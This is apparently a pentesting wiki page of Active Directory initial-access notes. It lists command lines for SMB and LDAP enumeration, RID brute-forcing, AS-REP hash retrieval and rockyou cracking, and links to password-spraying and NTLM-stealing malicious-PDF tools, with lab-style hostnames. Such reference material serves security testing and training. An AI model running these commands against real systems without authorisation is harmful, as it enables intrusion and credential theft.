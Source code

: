 ```yaml
---
layout: wiki
title: Initial Access
cate1: Internals
cate2: 1
description: Initial Access
keywords: Internals
---
```


# Initial Access

## OSINT
Generate Active Domain username conventions
  - [generate-ad-username](https://github.com/w0Tx/generate-ad-username)

## Password Spraying
**[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)**
  - Checks badpwdcount attribute only in the domain policy

**Additional Resources**
  - [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
  - [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
  - [Spray](https://github.com/Greenwolf/Spray)
  - [Hashcat Wordlists - InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)

## SMB Enumeration
**Nmap**

```
nmap --script smb-vuln* -p 139,445 [ip]
```

**Netexec**
```
## List Shares - Null session
netexec smb [host/ip] -u [user] -p [pass] --shares

## List Shares - Guest session
netexec smb [host/ip] -u guest -p '' --shares

## Spider Module through files
netexec smb -u [user] -p [pass] -M spider_plus
```

**Enum4linux**

```
enum4linux -a -u "" -p "" <DC IP>
enum4linux -a -u "guest" -p "" <DC IP>
```

**Smbclient**
```
smbclient -N -L //[ip]
smbclient //[ip]/[share name] -U [username] [password]
```

**Additional Resources**
  - [SMB - Share Enumeration Cheat Sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
  - [BIWasp/NetExec cheat sheet](https://github.com/BlWasp/NetExec-Cheatsheet)
  - [SMB Enumeration cheat sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
  - [CrackMapExec + NetExec cheat sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)

## Rid Brute via SMB
**[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**

*Credits to 0xdf located [here](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)*

Every Windows object (including users and groups) has a security identifier or SID. The SID is a unique ID that contains a bunch of information about the domain configuration, and might look something like `S-1-5-21-1004336348-1177238915-682003330-512`.

Within a domain or stand-alone host, the entire SID except the last number will be the same, and the last number is the relative identifier, or RID. These values fall in a predictable range, and thus, we can brute force the numbers across that range and get a list of users and groups.

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
## Using Netexec
nxc smb [IP] -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/[DOMAIN]\\//' > users.txt

## Using rpcclient
rpcclient [IP] -U 'guest%'
lookupnames administrator
lookupsids S-1-5-21-622327497-3269355298-2248959698-[RID_value]

## Using Impacket
lookupsid.py guest@[IP] -no-pass

## ASrep Hashes via Username Enumeration
GetNPUsers.py [DOMAIN]/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

## LDAP Enumeration
**Nmap**

```
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

**LDAPSearch**

```
ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts (Domain Contexts)
ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)' (Search Users)
ldapsearch -H ldap://192.168.110.55 -x -D "web_svc@painters.htb" -W -b "dc=painters,dc=htb" "(msDS-AllowedToDelegateTo=*)" msDS-AllowedToDelegateTo (Constrained Delegation)
```

**Additional resources**
  - [LDAPSearch Enumeration](https://notes.benheater.com/books/active-directory/page/ldapsearch)
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)
  - [LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

## Poisoning and Relay
Refer to [Poisoning and Relay](https://qwutony.github.io/wiki/003-3-Poisoning-And-Relay/)

## Web Application Vulnerabilities
**Bad PDF**
Bad-PDF create malicious PDF file to steal NTLM(NTLMv1/NTLMv2) Hashes from windows machines, it utilize vulnerability disclosed by checkpoint team to create the malicious PDF file. Bad-Pdf reads the NTLM hashes using Responder listener.

**Additional Resources**
  - [Malicious PDF](https://github.com/jonaslejon/malicious-pdf)
  - [Bad PDF](https://github.com/deepzec/Bad-Pdf)
  - [Bad PDF Checkpoint Research](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

## Integrated DNS Dump
**[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)**

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)
